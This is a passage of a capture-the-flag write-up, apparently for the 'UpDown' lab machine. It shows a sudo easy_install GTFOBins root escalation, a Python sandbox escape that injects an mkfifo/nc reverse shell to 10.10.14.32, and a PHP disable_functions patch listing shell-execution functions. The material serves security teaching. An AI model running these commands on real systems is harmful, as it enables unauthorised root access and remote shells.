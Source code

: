 ## Root - SUDO GTFOBINS
1. How do we exploit `easy_install`?
	- We can break out from restricted environments by spawning an interactive system shell.
2. Exploiting `easy_install`
	-  Spawn a `root` shell
		```
		developer@updown:/tmp$ TF=$(mktemp -d)
		developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
		developer@updown:/tmp$ sudo /usr/local/bin/easy_install $TF
		WARNING: The easy_install command is deprecated and will be removed in a future version.
		Processing tmp.bFSWGPKmBI
		Writing /tmp/tmp.bFSWGPKmBI/setup.cfg
		Running setup.py -q bdist_egg --dist-dir /tmp/tmp.bFSWGPKmBI/egg-dist-tmp-ZC4HiO
		#
		```
3. Demo - `easy_install` GTFOBins Privilege Escalation
	![](QrHlh59tyU.gif)


# Additional


## Developer - Escape Python Sandbox Environment
1. Instead of Python PATH Hijacking, we escape the python sandbox environment
2. Execute `/home/developer/dev/siteisup` & escape the sandbox environment
	```
	www-data@updown:/tmp$ /home/developer/dev/siteisup
	Welcome to 'siteisup.htb' application
	
	Enter URL here:__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4444 >/tmp/f')
	rm: cannot remove '/tmp/f': No such file or directory
	```
	![](wX9TAbpvz3.gif)

## Patch Command Execution (phpinfo)
1. Add `proc_open` to the list of banned functions
	```
	# nano /etc/php/8.0/apache2/php.ini
	# CTRL + W to find disable_functions
	disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcn
	tl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,
	pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlin
	k,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen, proc_open
	```
	![](Pasted%20image%2020221025000103.png)
2. Restart `apache` to apply changes
	```
	# service apache2 restart
	```
3. View `phpinfo`